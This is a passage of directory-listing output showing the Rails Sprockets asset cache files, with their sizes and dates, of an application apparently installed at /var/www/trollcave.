-rw-rw-r-- 1 rails rails  150 Oct 23  2017 mx0qla58YimeC2afcBVGG6zD7LGeV_Xf-NTkCMtpNoQ.cache
-rw-rw-r-- 1 rails rails  140 Sep 16  2016 MYDisJL1lG4fTMs35ZxNuVkjtu5LwNNACRBUBAxP-SE.cache
-rw-rw-r-- 1 rails rails  10K Oct 23  2017 nBV1Q13jYvx2g_yeexhsOYH9Fniw1wMdOwb9xFYZ3vY.cache
-rw-rw-r-- 1 rails rails  140 Oct 23  2017 NFcdN4dDTkt7t2ysniCRFE1qZa__9VbCRYiii1S72_E.cache
-rw-rw-r-- 1 rails rails  156 Oct 20  2017 nFGz5_6uv1C1S58Md2hHMeLeaBCrLjncpUcflRfqQUM.cache
-rw-rw-r-- 1 rails rails   41 Sep 16  2016 NFsh03jPPlu00bUBZ1-HDKVPxqsV3Lw1m8PoXbhdffM.cache
-rw-rw-r-- 1 rails rails  149 Oct 23  2017 NpDyy8UfzDDdkDwS0xOIhasuhst6ngjnJk6z0Lrp4Kk.cache
-rw-rw-r-- 1 rails rails  934 Oct 20  2017 NU1rz854fU19RF6yrv227-_yb-7I34XZxPmipxbCnDY.cache
-rw-rw-r-- 1 rails rails  96K Sep 16  2016 N_ZRN6881rzGYldqryMw9D1eSCWHFD1SYc5mRe8Pb6I.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 Ogk5x1wqao8ZFSXReI0fM8w0god9esjY8W6VR6H6JlQ.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 oNr7o9pHaQdvLGdGRHFhxJkkHmjM3rQg3qBhMxD3s-k.cache
-rw-rw-r-- 1 rails rails 1.9K Sep 16  2016 ONyKOiI41m5WJn8t7ulwafKxNTs3QS9wMKjdLKa7oNM.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 -oyAj08OnPOv1ABiEgWVX4kF7ZyaRX0TcRETMRllfWI.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 P387l3TI1Dvh16pcRUDvFwx4hia9ITYQ555W7rabucI.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 P8VwHa_X-cjAWUfNF97AtqPSiRKSHy123aNXXzlksIw.cache
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 pbFJy16a8R8yawHlw1ptqcF_rHfVtNhKTXaPh1veQtQ.cache
-rw-rw-r-- 1 rails rails 2.0K Sep 16  2016 Pg9AZXECYjPPwv0QZQyaULXAIVzcSrLninNIVns5aw4.cache
-rw-rw-r-- 1 rails rails  212 Oct 23  2017 PGIC6_9M5T3Atsve2b8N7H1FLpjHC0YY2jRHfSKv9-Y.cache
-rw-rw-r-- 1 rails rails  210 Oct 23  2017 PgOkiybIeItTgHsmkdz8kcJJHPjwA6mf1keK0u8ukdw.cache
-rw-rw-r-- 1 rails rails  150 Oct 23  2017 p-Gx2uV76pcGPA1I6S8shG7zCCRSIAg5qInLoVeXcGc.cache
-rw-rw-r-- 1 rails rails  150 Oct 20  2017 PHsh3aZ0SB_w5ehijkBr359CrbQ6hDOzWWGqhYZUhZw.cache
-rw-rw-r-- 1 rails rails  205 Oct 20  2017 pj5AiuNHpJwWeQYlO-9QgQ_ybz7IqbX4MIxNasx-ggs.cache
-rw-rw-r-- 1 rails rails  854 Oct 23  2017 pQE1r-8XFxxU2-aC732xoiD7uIvgGYU9TBWweLJ5b3E.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 p_V4q3wBxj2Tk5fRbRid_fOpQ-4nFGLe0qDG2mQATRg.cache
-rw-rw-r-- 1 rails rails  218 Oct 23  2017 q80AQAewt5tBJnDPdBetlnv7ORDrVaahm5e_xrREKj0.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 qDP6VJMjP7jsdZxQryiwXLr_8KjtsyEUzlFkomNN53k.cache
-rw-rw-r-- 1 rails rails   36 Oct 20  2017 QMX2sTM2F-TMuEBish0o8sA6zssMrjB22w3UmMnSZRE.cache
-rw-rw-r-- 1 rails rails  242 Oct 20  2017 RCkacTFo8D86kXUOhVH4sNPf3qnBnmjHNYAILXShheg.cache
-rw-rw-r-- 1 rails rails  192 Oct 23  2017 RItf3zCI_PaYqYaAKFvDAoEJ0zlk8ghdW-5YoGbhCfs.cache
-rw-rw-r-- 1 rails rails  211 Oct 23  2017 RIXt0XS1h4vWPf6NtoHj0cPwzr6-vgt4aHXuWwjgmiQ.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 rugFuPskRY6Aa0d8tM1LBfyzAzY0yV1VtgtTKCWrCHg.cache
-rw-rw-r-- 1 rails rails  213 Oct 23  2017 s5mZYf9Dwy0bVfJoNuSQtnWMQ3QxB--ZN1AOlsIjD98.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 ShA_mvF7DRsIBjZ_EbgltiT_xD4DLpJwCLV0rkS5mfg.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 sqq3pdeLflWjN7Njn1lrwWoa4T7AGe_FX0egSCPLuh8.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 SU486OaAWgghFGmu01j5vLBRsajyp4eCZ74kMfwVzWk.cache
-rw-rw-r-- 1 rails rails  789 Sep 16  2016 T3gz645OaUgDJHVqzgg8dp9VU6nw7sv6sWGdMR6A6QM.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 t6WZ9GAVtvRH0DpPaz_ruP8zen6dI4_LfeYHpznx-NI.cache
-rw-rw-r-- 1 rails rails 2.4K Oct 23  2017 -TKTOi5dEmcMKIwTN-zWfNWMv-vTNg3nlutTnplIvLo.cache
-rw-rw-r-- 1 rails rails  514 Oct 20  2017 TnmZBAsY5TYyjOZYBm6oFqJ1cjT6VOHadFypCRnInRY.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 _UBkpIzwmz_o4cM0OgVi_FMzn44-04zua9qJPLN4tGY.cache
-rw-rw-r-- 1 rails rails  949 Oct 20  2017 UMCcSytjGa6SB9BkTGgPQmGx4gX2c4K1MeApdszSb9c.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 UYaV_jSncLmNnLWK2SYbp2K2A4tGIqVu2VzbC4McLaI.cache
-rw-rw-r-- 1 rails rails  211 Oct 20  2017 uYdKDE2q-n8yT3MNXcX9k91BVnW2F_sMRyWPRRUK9o8.cache
-rw-rw-r-- 1 rails rails 3.8K Sep 16  2016 v4jrH8L7OogxNk9ItEFulw0Si5mh8NivCbzDx6t7Bmw.cache
-rw-rw-r-- 1 rails rails  159 Oct 20  2017 VadBTa5wmMAe_I6HVNrgOIf6cXRHaG9HWZlMmgNN6Do.cache
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 vDG_rr06lkL6JNuyPD8Zy88PqQcpDlW0X4VnhFsuoso.cache
-rw-rw-r-- 1 rails rails 6.4K Sep 16  2016 VOp0pIv_pTt1jyD5JQn5Ee721CyQFQTGdnz4ODw38i4.cache
-rw-rw-r-- 1 rails rails  934 Oct 20  2017 vRgIhX8Y8kPNDIYyWeI4OeGRHia8rIebjmCMoUPY5rA.cache
-rw-rw-r-- 1 rails rails  150 Oct 23  2017 VtS29si8tksbczkbgNwkZzEqFC-6bdLkfad2ZcEn9gQ.cache
-rw-rw-r-- 1 rails rails  250 Oct 20  2017 VYEbZFBFpJQqn3KchKx-zjFpgI35PRIMb6Ux7ify2CE.cache
-rw-rw-r-- 1 rails rails  136 Oct 23  2017 wcZmKLnFPYOHiU3QkWxf9Ypr-4G59sITWrA6efcVK9Q.cache
-rw-rw-r-- 1 rails rails  944 Oct 20  2017 WfnLTIqVHT5-HwZkw7uLBufY4rLDIuWmeAxe6Jf9rgg.cache
-rw-rw-r-- 1 rails rails  84K Oct 20  2017 WhPlCPHQl5Awht51dF-rwHMUJV6G0py9PX_yEZRYdp4.cache
-rw-rw-r-- 1 rails rails 5.7K Oct 20  2017 WQt0mt2tSwW0kckavMsMN_ggtzqpdFvk24PlIWPjCv8.cache
-rw-rw-r-- 1 rails rails 3.4K Oct 23  2017 WrK9TI-AuNgq99lOrtXIQjwcCd2-X3W3o3XcevOj8ZQ.cache
-rw-rw-r-- 1 rails rails  165 Oct 20  2017 Wz6c7FUfIppVHEMufPIGnNSGi-G7_ii293NrZ1g-71c.cache
-rw-rw-r-- 1 rails rails  156 Oct 20  2017 xPih5BVJJGWKEE1OW-hexeUrdL4qUcZpMwnb5ZWL47I.cache
-rw-rw-r-- 1 rails rails  208 Oct 23  2017 XQkzZnuxXgbNRzxBBgnnsMbENKZoTzILzbFIBScmsp8.cache
-rw-rw-r-- 1 rails rails 2.3K Oct 23  2017 xtMpUtRtQV6vDikXtDtiGePPlbPaIJy6NRbygX3sVdQ.cache
-rw-rw-r-- 1 rails rails  139 Oct 23  2017 xwMTS8feAzA-jev1D47MxPUeav3wHLwzYUlQRlwH8Qs.cache
-rw-rw-r-- 1 rails rails  240 Oct 20  2017 yLpW_7_mv--d0YbIr5xg2toqjT15wQBe0qKxuJz9mw0.cache
-rw-rw-r-- 1 rails rails  277 Oct 20  2017 yLqRrZOqSFtxOsqx8BRqQ49uT06kd1SPnAx34LKUwtM.cache
-rw-rw-r-- 1 rails rails 2.0K Oct 20  2017 YPb0B5SVJjUo42KjL8QFUP48DbWdT0JliT7NcPSG_Lk.cache
-rw-rw-r-- 1 rails rails  789 Oct 23  2017 Y_SFAAkzn9HsK2fqjjzcNJAvgY68d3fT5rAfN94CbKQ.cache
-rw-rw-r-- 1 rails rails  144 Sep 16  2016 YUvDlJ9SAfuFGWEj-tJL5XoQQUmbB7EKlQs9MGwYEFw.cache
-rw-rw-r-- 1 rails rails  136 Oct 23  2017 yx974sQjNna1vxh_GWtwdQINHcWMOAepaXpXXhKHKZk.cache
-rw-rw-r-- 1 rails rails  949 Oct 20  2017 Z8vI768Uc1v0kehEmfmoepIj6z51Fsf5yXWZzWCgCIs.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 Z-AkIXnHEVQ7uikR_E51y78iZEhcw87gbwBF-vz1Tns.cache
-rw-rw-r-- 1 rails rails 3.3K Oct 20  2017 zFMeHJZ9nvYwfuwA-84Y5n7LI5cKfGnmOPmfF4El_Dc.cache
-rw-rw-r-- 1 rails rails  143 Oct 23  2017 zgYBWKguSOXYleUPe3OhomW1mlatWqv9MH1dUsnMW2Q.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 ZJ-nNT5xmtjYCVNENCabfxyTb9pcTDd6qGz2v4o7HuA.cache
-rw-rw-r-- 1 rails rails  239 Oct 20  2017 ZkMzJqURTqCOsDV4LP1xeHsePqM7mt7dRNcFtlJ_yD8.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 Zl-FNyCVHpHah3XUNLjj5z7NwNwrfsSP9eBTvFOVXqg.cache
-rw-rw-r-- 1 rails rails   36 Oct 23  2017 zqESjL--ME5yVPIAUgL8UNyVbl-UuJhsuAhssg4bq90.cache

/var/www/trollcave/tmp/cache/assets/production:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 sprockets

/var/www/trollcave/tmp/cache/assets/production/sprockets:
total 20K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails  12K Sep 16  2016 v3.0

/var/www/trollcave/tmp/cache/assets/production/sprockets/v3.0:
total 644K
drwxrwxr-x 2 rails rails  12K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 1.7K Sep 16  2016 0ADMbK7HIkLSIyVltU-zB603EedZDuOWJu4VTt4JvIY.cache
-rw-rw-r-- 1 rails rails  934 Sep 16  2016 0mCl_xRGdjzDzZyfovsSCPx8OaGq4u22nVYfAo-TX5Q.cache
-rw-rw-r-- 1 rails rails  143 Sep 16  2016 0vYLB8GufWr1xqJ4pPtv-ef3eeDLXIcqyIo9qsvUiFc.cache
-rw-rw-r-- 1 rails rails  243 Sep 16  2016 17ubBLAfkO54mc-A02R2ogRUedXvfWmqjsuLK0OEd7c.cache
-rw-rw-r-- 1 rails rails 2.5K Sep 16  2016 1EiDvHq_1KqUR7z1ruLUcwWqtF8CJDP32kuurUAWQYc.cache
-rw-rw-r-- 1 rails rails  136 Sep 16  2016 1oEcrkDjju3UWbsQRNI0f9np0xnCiqBF6ipHaAz3h0E.cache
-rw-rw-r-- 1 rails rails  209 Sep 16  2016 3dFVOJ7jomdmWvmBO0NCYZpVJj4Aj8mJyzC4ESeZc6g.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 42Npn-FUKi-awZNPgo_Qphvxf_NH5WGGqpKneAYMOXA.cache
-rw-rw-r-- 1 rails rails  959 Sep 16  2016 4BjHyhM5Qv8KAh9gqnPqepdAAhDfSM8JgNVyFIZEyVY.cache
-rw-rw-r-- 1 rails rails  217 Sep 16  2016 4cMYhIqvBBOP4qNagrxVT1jSwIGcME5axUdXp4tkjRE.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 4hTGX1eoHhdFzPm1pZ3Xgc7dccDR1nYYMfKQo9XI5nU.cache
-rw-rw-r-- 1 rails rails  243 Sep 16  2016 4JQ3uf2_0rPjboMenylFNr57zWbhuKZ_IdX52lfh9-M.cache
-rw-rw-r-- 1 rails rails 2.3K Sep 16  2016 56IqZNKRuTNdxpQQLYBbbrkS6gosBRCnC1HEG9wB72M.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 6XGcnfKAZfrJVxfMLTdWfY7aq4ZTGMmvvSjYaRNIe7w.cache
-rw-rw-r-- 1 rails rails  159 Sep 16  2016 8Dska0s-u93M_GnHcLoHyUqpZdztfla-Ptfk9ovle2M.cache
-rw-rw-r-- 1 rails rails  854 Sep 16  2016 9OAa1l7mIlS73JTw3cUxd6esr8XLCAf0jV8iaWSoKoo.cache
-rw-rw-r-- 1 rails rails  207 Sep 16  2016 A_w3JMOvuzlc8SfIPcHg-hHbEXcpbZtCqsH7pwkRlJs.cache
-rw-rw-r-- 1 rails rails  865 Sep 16  2016 _B3juezKwOjoqHjIgx7TS3FK2_vRgGg-DXWNkyL8I7s.cache
-rw-rw-r-- 1 rails rails  165 Sep 16  2016 BeTX3znYqNJ9k0K8TLUZyWWBVISTbdquzqnLOprl0Qc.cache
-rw-rw-r-- 1 rails rails  850 Sep 16  2016 bxv7ZepSInpHCfM1FvU7N2Lc7OKSD9FJOrWOqiO8RDA.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 c0FgqaTTUK_9-k71DHvbpSLA3FQ0LPwIjr-L3xjFszs.cache
-rw-rw-r-- 1 rails rails  885 Sep 16  2016 CV_ZdzlLzsEqVdaA__mSPZBh7591pB9X42SVJeQR_10.cache
-rw-rw-r-- 1 rails rails  156 Sep 16  2016 cwHPdjcQoXOk9b3K_biMsk07w0Arlisqb-BeaVC2_8s.cache
-rw-rw-r-- 1 rails rails  273 Sep 16  2016 cwxdb1SaYn1DKZ91Poa1Y8fPkfjITtRjrB_YjXScL9c.cache
-rw-rw-r-- 1 rails rails  208 Sep 16  2016 d7CtwSl0YHBfcnwmh4QbJmRoE8ys95301wvPjRGkpMQ.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 -dHsf8anSMxFwY4VoLns2BG1Kb5VLksz2r65fIM6-i8.cache
-rw-rw-r-- 1 rails rails  890 Sep 16  2016 _DnViK0TnGEY8tiNwOO4q1bogJrfX512Q_QNbjUGGSU.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 DoyJ_hrgbeyMkpIKe1QIZAZcVGi4Pz396ZuikDzyGEk.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 DrmmIyeAS5SaiSEMMfexLxDjFQHOGkSOXfXOGXcOuwY.cache
-rw-rw-r-- 1 rails rails 3.0K Sep 16  2016 _DwQP9DfMeMWQP3ESNHcY18fZ4BUAmIiycvxyb_OORw.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 ekeBz4TbMF7g38ycv9Fco8DBDfASgibifFgP02nnsR0.cache
-rw-rw-r-- 1 rails rails 1.6K Sep 16  2016 EKF85fmQxAtU8LEfoAo4uHBl1LF8n48FF166RmNJ81Y.cache
-rw-rw-r-- 1 rails rails  240 Sep 16  2016 eN_MqgsJ6kGs2g_2oRnMvC-46tAsvIeAikPo7gO6aOs.cache
-rw-rw-r-- 1 rails rails  205 Sep 16  2016 F3vNowmCbg1gB1Hj7LYai7y8XoVVe8m4Et4nAecopPM.cache
-rw-rw-r-- 1 rails rails  139 Sep 16  2016 fjZVzDWdYnqAocGNBeWi2y2XAoMmaeB2OgytKBq-umU.cache
-rw-rw-r-- 1 rails rails 1.5K Sep 16  2016 fxs48SoC0Cq7OTPVJIYbZ1ADKc89sgTDYUehVz9AOWo.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 Fzb9uqppZd0fbrRLg8WpoHUonJyNj1_xtcrgo6xc_Ec.cache
-rw-rw-r-- 1 rails rails 6.9K Sep 16  2016 gG4-GaSJwVX-aFpycYB54B90m2ACzEkV9aCDBrUOgl0.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 gIwdCnCFNN140wtroEB90gJem1CnaAIKSI3IbKQDprM.cache
-rw-rw-r-- 1 rails rails  934 Sep 16  2016 hAXaA_P8sYlY_AR7erpim-7U1fwnk3vm1fax-c3LozE.cache
-rw-rw-r-- 1 rails rails  159 Sep 16  2016 hDZb6-FhHLQmjFMJNEeIsxNvY-je0GjpSlGYjr5xGOM.cache
-rw-rw-r-- 1 rails rails  149 Sep 16  2016 HHokxbkI2LTFS2OpTuuPrmYkpl2WVwoAVUeZtsNjI1I.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 hL8XsvrhK2wUYpkgTspU6smvDEOuGdgnCYDiDG532-A.cache
-rw-rw-r-- 1 rails rails  211 Sep 16  2016 hRvNAf1-OVvw_D-aly1jwddEcGwsiFg8gqevEAQi7U8.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 hVwUJNh0NZYKSgz96YTFVkDrIJpTdZUjAbR5hN6khrY.cache
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 HzrUgdZkwvt3iOrLbT8C7fl782RS2UroIhKbTBGLq_8.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 ithwnSlgwhttyKwZ_1JvA2KoUxfy95GznEwcrICFrMk.cache
-rw-rw-r-- 1 rails rails  949 Sep 16  2016 JCjMOOJfQUInVLn24oKUHStU1IsSWqBf1bVZE1M6nUw.cache
-rw-rw-r-- 1 rails rails  245 Sep 16  2016 JyqMbT3oMutYJTNmj3p1z1e1W-CUM8Unv-LnNORAISc.cache
-rw-rw-r-- 1 rails rails  84K Sep 16  2016 j_YqxIjdkI2AqmoCSyBBaxrd2KM7gopxNy_Fb_2bKZ0.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 K0ZOYiuqEKoEV0cMcwhKmjkzXqV3Ju0vVSDmAoZKAIs.cache
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 KgsJeTugu8-0RS8kNIwRwpEPMxKnsy87CM9vGaJkn1s.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 KptQCwFSICkyAmHln1nOmlHYXHbp-Ro376Y15uNSZMQ.cache
-rw-rw-r-- 1 rails rails   41 Sep 16  2016 KVLRlP8_ZddMFsTuVFvHN55OssVrQfiQYVRdWpjmxX8.cache
-rw-rw-r-- 1 rails rails  929 Sep 16  2016 KZsUCDDabO5uqRTxYZ6mT6EvvTFV9_zyW4ij6a5-J7o.cache
-rw-rw-r-- 1 rails rails  295 Sep 16  2016 l5uYWCQ_ai4-6FQ7G-qkdgrm-otVY2eGaHMQbpu8mQU.cache
-rw-rw-r-- 1 rails rails  249 Sep 16  2016 lgoTkTTJXoFCpuoeuG97iEsQqjy8jvkkmyot7yFQ3CI.cache
-rw-rw-r-- 1 rails rails  240 Sep 16  2016 m8RV6Jib53pxfhAQaiTgUFJpfYn-raiX_ujaG-cnyP0.cache
-rw-rw-r-- 1 rails rails  144 Sep 16  2016 mAlQzBoi3_dKLKySE7KVp13-mAFjLUmuEFjl16j4n34.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 mJEcZ3yR-TExvxJPeqA-IVNtCjlBQCzgCCcEiz6vYZY.cache
-rw-rw-r-- 1 rails rails  979 Sep 16  2016 mjTrGDSGvCdrJVkOD3E-sOdsWknQNx6D3SFwknm4x-c.cache
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 m-KBhaqdO-i_S1eJTXDEbZNX9aXbQ90tvdNWTTZDgx8.cache
-rw-rw-r-- 1 rails rails  156 Sep 16  2016 nA7Nmsq843kh9h5U1vrvN_klwixEdBQX6nOGKUA0b4s.cache
-rw-rw-r-- 1 rails rails 9.4K Sep 16  2016 nBV1Q13jYvx2g_yeexhsOYH9Fniw1wMdOwb9xFYZ3vY.cache
-rw-rw-r-- 1 rails rails  984 Sep 16  2016 NdZHE_u5uL_CVn0K6nkjQBvNEKSNoJYcUzhLlcoPLQE.cache
-rw-rw-r-- 1 rails rails   41 Sep 16  2016 NFsh03jPPlu00bUBZ1-HDKVPxqsV3Lw1m8PoXbhdffM.cache
-rw-rw-r-- 1 rails rails  156 Sep 16  2016 nmnki5eHdL0NQwyQMEFvU53lmoPPGw25lWuvt49f1Xk.cache
-rw-rw-r-- 1 rails rails  944 Sep 16  2016 Nume8MxpBaHb_GQWTyueCpeltJPGI-jOd7kv9oTUDXE.cache
-rw-rw-r-- 1 rails rails  934 Sep 16  2016 Ock0MXvybOa_TCDvardc_5sYuX66ZxzTx9Kv9GuY5BE.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 Ogk5x1wqao8ZFSXReI0fM8w0god9esjY8W6VR6H6JlQ.cache
-rw-rw-r-- 1 rails rails 1.3K Sep 16  2016 OnPQ1M2g59R2n3JQ-DwmjVo4zm1JehR9rKO6Rj83aCM.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 oNr7o9pHaQdvLGdGRHFhxJkkHmjM3rQg3qBhMxD3s-k.cache
-rw-rw-r-- 1 rails rails 1.9K Sep 16  2016 ONyKOiI41m5WJn8t7ulwafKxNTs3QS9wMKjdLKa7oNM.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 -oyAj08OnPOv1ABiEgWVX4kF7ZyaRX0TcRETMRllfWI.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 P387l3TI1Dvh16pcRUDvFwx4hia9ITYQ555W7rabucI.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 P8VwHa_X-cjAWUfNF97AtqPSiRKSHy123aNXXzlksIw.cache
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 pbFJy16a8R8yawHlw1ptqcF_rHfVtNhKTXaPh1veQtQ.cache
-rw-rw-r-- 1 rails rails  949 Sep 16  2016 pcUF0t4RsPGklkG1u4utwMJJyAhZk3X497qNJIWDjxA.cache
-rw-rw-r-- 1 rails rails 2.0K Sep 16  2016 Pg9AZXECYjPPwv0QZQyaULXAIVzcSrLninNIVns5aw4.cache
-rw-rw-r-- 1 rails rails  212 Sep 16  2016 PGIC6_9M5T3Atsve2b8N7H1FLpjHC0YY2jRHfSKv9-Y.cache
-rw-rw-r-- 1 rails rails  210 Sep 16  2016 PgOkiybIeItTgHsmkdz8kcJJHPjwA6mf1keK0u8ukdw.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 p_V4q3wBxj2Tk5fRbRid_fOpQ-4nFGLe0qDG2mQATRg.cache
-rw-rw-r-- 1 rails rails  218 Sep 16  2016 q80AQAewt5tBJnDPdBetlnv7ORDrVaahm5e_xrREKj0.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 qDP6VJMjP7jsdZxQryiwXLr_8KjtsyEUzlFkomNN53k.cache
-rw-rw-r-- 1 rails rails  140 Sep 16  2016 QPDfYMlzbxJys4aDC0DMy-iOYhzIGPKPqNx7aXdGRno.cache
-rw-rw-r-- 1 rails rails  242 Sep 16  2016 RCkacTFo8D86kXUOhVH4sNPf3qnBnmjHNYAILXShheg.cache
-rw-rw-r-- 1 rails rails  211 Sep 16  2016 RIXt0XS1h4vWPf6NtoHj0cPwzr6-vgt4aHXuWwjgmiQ.cache
-rw-rw-r-- 1 rails rails 5.7K Sep 16  2016 rrmE2lvztyA0XkLHJ3GEYmMIqDyGMVQ4sWQ_dsFBLec.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 rugFuPskRY6Aa0d8tM1LBfyzAzY0yV1VtgtTKCWrCHg.cache
-rw-rw-r-- 1 rails rails  155 Sep 16  2016 _rwc5aWdxP1xQWXyqL7Bf0S_t4TE76zHJwgiIJN9XF8.cache
-rw-rw-r-- 1 rails rails  213 Sep 16  2016 s5mZYf9Dwy0bVfJoNuSQtnWMQ3QxB--ZN1AOlsIjD98.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 sqq3pdeLflWjN7Njn1lrwWoa4T7AGe_FX0egSCPLuh8.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 SU486OaAWgghFGmu01j5vLBRsajyp4eCZ74kMfwVzWk.cache
-rw-rw-r-- 1 rails rails  789 Sep 16  2016 T3gz645OaUgDJHVqzgg8dp9VU6nw7sv6sWGdMR6A6QM.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 t6WZ9GAVtvRH0DpPaz_ruP8zen6dI4_LfeYHpznx-NI.cache
-rw-rw-r-- 1 rails rails  140 Sep 16  2016 tCHdCGrQVG7C4hcOhhsTzY0ULdOncCyuOkNvBd0h5do.cache
-rw-rw-r-- 1 rails rails  150 Sep 16  2016 tgmnAP0OzFdT74Vg9EI5gKIBdVKJ6Lb3sNrydjP9VuA.cache
-rw-rw-r-- 1 rails rails 2.9K Sep 16  2016 TnmZBAsY5TYyjOZYBm6oFqJ1cjT6VOHadFypCRnInRY.cache
-rw-rw-r-- 1 rails rails 1.3K Sep 16  2016 TQC0OHbceJ4G3Y2tJbUzzqkT8mMS2sXhU19IfWKkPlg.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 _UBkpIzwmz_o4cM0OgVi_FMzn44-04zua9qJPLN4tGY.cache
-rw-rw-r-- 1 rails rails  145 Sep 16  2016 UoZm7ztK8IT4uQ_RmHNdGpWzHgdOH0mz1l9lyRzT8Bw.cache
-rw-rw-r-- 1 rails rails 3.8K Sep 16  2016 v4jrH8L7OogxNk9ItEFulw0Si5mh8NivCbzDx6t7Bmw.cache
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 vDG_rr06lkL6JNuyPD8Zy88PqQcpDlW0X4VnhFsuoso.cache
-rw-rw-r-- 1 rails rails  158 Sep 16  2016 VEUXRMGKJse1HOjHz-E9q9ORaB-3nQoIF4XWNohRzWY.cache
-rw-rw-r-- 1 rails rails 6.4K Sep 16  2016 VOp0pIv_pTt1jyD5JQn5Ee721CyQFQTGdnz4ODw38i4.cache
-rw-rw-r-- 1 rails rails  158 Sep 16  2016 VR-V8Hu2PuXILuLi7YRg86eUpLblkeGE7XHnR0JzyDQ.cache
-rw-rw-r-- 1 rails rails  250 Sep 16  2016 VYEbZFBFpJQqn3KchKx-zjFpgI35PRIMb6Ux7ify2CE.cache
-rw-rw-r-- 1 rails rails  161 Sep 16  2016 w6qy89vHBmwHlvI3KobDhexf-Neh-YmijSXGo12oVFg.cache
-rw-rw-r-- 1 rails rails 1.6K Sep 16  2016 WBjxLiP2Wk0gWHGbMVvzW7Xzxz-bdoKV5nrlLNGDV4Q.cache
-rw-rw-r-- 1 rails rails  150 Sep 16  2016 WH7bDG8hQNjwXQTwXwvvOZ1p6NlKtSX5icNC4ao1AuA.cache
-rw-rw-r-- 1 rails rails  208 Sep 16  2016 XQkzZnuxXgbNRzxBBgnnsMbENKZoTzILzbFIBScmsp8.cache
-rw-rw-r-- 1 rails rails  41K Sep 16  2016 YFwhpqhYLU7LzCZEMFqoH6xqS4ngtd41fXJI47Vsmgw.cache
-rw-rw-r-- 1 rails rails  240 Sep 16  2016 yLpW_7_mv--d0YbIr5xg2toqjT15wQBe0qKxuJz9mw0.cache
-rw-rw-r-- 1 rails rails  277 Sep 16  2016 yLqRrZOqSFtxOsqx8BRqQ49uT06kd1SPnAx34LKUwtM.cache
-rw-rw-r-- 1 rails rails 1.8K Sep 16  2016 YPb0B5SVJjUo42KjL8QFUP48DbWdT0JliT7NcPSG_Lk.cache
-rw-rw-r-- 1 rails rails  144 Sep 16  2016 YSs5jGKRsKOf5wY6we1ktgp10yOE4zdrBDP_iyziHuo.cache
-rw-rw-r-- 1 rails rails  166 Sep 16  2016 ZF3AMDbaz1yBOotq4RDZ5mh50dMvolM6pjiK5PC0t24.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 ZJ-nNT5xmtjYCVNENCabfxyTb9pcTDd6qGz2v4o7HuA.cache
-rw-rw-r-- 1 rails rails  239 Sep 16  2016 ZkMzJqURTqCOsDV4LP1xeHsePqM7mt7dRNcFtlJ_yD8.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 Zl-FNyCVHpHah3XUNLjj5z7NwNwrfsSP9eBTvFOVXqg.cache
-rw-rw-r-- 1 rails rails   36 Sep 16  2016 zqESjL--ME5yVPIAUgL8UNyVbl-UuJhsuAhssg4bq90.cache
-rw-rw-r-- 1 rails rails  142 Sep 16  2016 zZZIrggGOGptbqbi8iDBmoIFp0Tvvhsg30PVDFapuJ8.cache

/var/www/trollcave/tmp/pids:
total 12K
